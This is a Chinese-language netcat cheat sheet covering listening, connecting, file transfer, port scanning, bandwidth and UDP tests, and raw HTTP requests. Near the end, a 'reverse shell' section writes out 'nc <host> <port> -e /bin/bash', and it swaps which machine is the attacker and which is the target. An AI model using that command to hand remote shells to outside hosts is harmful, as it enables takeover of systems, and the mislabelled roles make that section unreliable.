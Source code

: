 # nc(netcat) 是网络测试与调试的瑞士军刀


# 作为服务器监听端口
nc -l -p <port>
例如，nc -l -p 12345 在端口 12345 上启动一个监听服务器
在较新的版本中，可以使用简化语法：nc -l 12345

# 作为客户端连接到服务器
nc <hostname> <port>
例如，nc 192.168.1.100 12345 连接到 IP 地址 192.168.1.100 的 12345 端口

# 传输文件

## 发送文件
nc <hostname> <port> < <file>
例如：nc 192.168.1.100 12345 < file.txt。

## 接收文件
nc -l -p <port> > <file>
例如：nc -l -p 12345 > file.txt。

# 扫描端口
nc -zv <hostname> <port-range>
-z：只扫描，不发送数据。
-v：显示详细信息。
例如：
nc -zv 192.168.1.1 1-1000
扫描 IP 地址 192.168.1.1 的 1 到 1000 端口。

# 发送数据到服务器
echo "<message>" | nc <hostname> <port>
例如：
echo "Hello, World!" | nc 192.168.1.100 12345

# 测试网络带宽
## 服务器端
nc -l -p <port> > /dev/null
例如：nc -l -p 12345 > /dev/null。

## 客户端
yes | nc <hostname> <port>
例如：yes | nc 192.168.1.100 12345。
使用 yes 连续发送数据流，测试带宽速度。

# 建立简易聊天
## 监听端（服务器）
nc -l -p <port>
例如：nc -l -p 12345。

## 客户端
nc <hostname> <port>
例如：nc 192.168.1.100 12345。

# 双方可以输入消息并实时通信。
## 模拟 HTTP 请求
echo -e "GET / HTTP/1.1\\r\\nHost: <hostname>\\r\\n\\r\\n" | nc <hostname> 80
例如：
echo -e "GET / HTTP/1.1\\r\\nHost: example.com\\r\\n\\r\\n" | nc example.com 80

# UDP 流量测试
## 服务器端（监听 UDP 流量）
nc -u -l -p <port>
例如：nc -u -l -p 12345。

## 客户端
nc -u <hostname> <port>
例如：nc -u 192.168.1.100 12345

# 反向 Shell（慎用！）

## 目标机器（监听反向连接）
nc -l -p <port>

## 攻击者机器（反向连接）
nc <hostname> <port> -e /bin/bash
例如：
nc 192.168.1.100 12345 -e /bin/bash


# 设置连接超时
nc -w <seconds> <hostname> <port>
例如：nc -w 5 192.168.1.100 12345 设置超时时间为 5 秒

# 忽略 DNS 解析
nc -n <hostname> <port>
例如：nc -n 192.168.1.100 12345

# 示例命令合集：

## 启动服务器并接收文件：
nc -l 12345 > received.txt

## 连接服务器并发送文件：
nc 192.168.1.100 12345 < file.txt

## 扫描端口范围：
nc -zv 192.168.1.1 80-100

## 建立一个 UDP 聊天：
nc -u -l 12345
nc -u 192.168.1.100 12345